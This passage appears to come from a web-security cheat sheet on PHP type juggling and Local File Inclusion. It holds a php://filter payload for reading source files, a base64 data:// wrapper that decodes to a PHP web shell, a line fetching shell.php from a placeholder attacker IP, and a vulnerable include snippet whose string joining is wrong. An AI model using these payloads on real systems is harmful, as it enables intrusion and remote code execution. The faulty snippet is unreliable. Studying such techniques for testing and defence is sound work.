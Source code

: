 {% hint style="warning" %}
The `"php" == 0` case was so weird, that from PHP 8.0 onward, this is no longer true. However, the `"php" == true` still works ([see test](https://onlinephp.io/c/b435e)).
{% endhint %}

## Local File Inclusion

When some code uses the `include`, `include_once`, `require` or `require_once` keyword to include a file from user input (eg. `$_GET['page']`) you can include any file on the system using Directory Traversal.&#x20;

The functions run PHP code in the files that are included. If you can upload any file, put PHP code in there, and when you include it, it will be executed.&#x20;

If the response is PHP code, it will be executed and not shown to you, which could be a problem. If you want to read source-code of the `.php` files, you can use the following PHP filter to convert the file to base64 before interpreting it:

```url
php://filter/convert.base64-encode/resource=index.php
```

{% hint style="info" %}
You can read PHP files like this even if `.php` is appended to your input in the code. Because the last part of this PHP filter is `.php` you can just remove it and let the code add it back
{% endhint %}

### RCE using PHP Filters

The main goal for getting RCE from LFI is to get some arbitrary content returned by the URL, which is then included and read as PHP code. If you control the start of the URL in some include function, you can use [PHP Wrappers](https://www.php.net/manual/en/wrappers.php) to get content from other places than straight from a file. The `data://` wrapper for example can return arbitrary content, for example, using the `base64` encoding:

{% code title="PHP wrappers with a shell" %}
```url
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSkgPz4=
http://$YOUR_IP/shell.php
```
{% endcode %}

However, in more recent versions of PHP, the `allow_url_include=` option which enables some of these wrappers is **disabled by default**. However, there is a really powerful technique that I came across recently [found by loknop](https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d) which combines lots of PHP filters to turn any file into arbitrary PHP code. For this, you only need to have **control of the start** to allow PHP wrappers, and then have a valid file anywhere to transform into PHP code. But you'll have a valid file anyway from the default functionality of the site, so this is pretty much a guarantee.&#x20;

{% code title="Example vulnerable code" %}
```php
<?php include $_GET["page"] + ".php" ?>
```
{% endcode %}
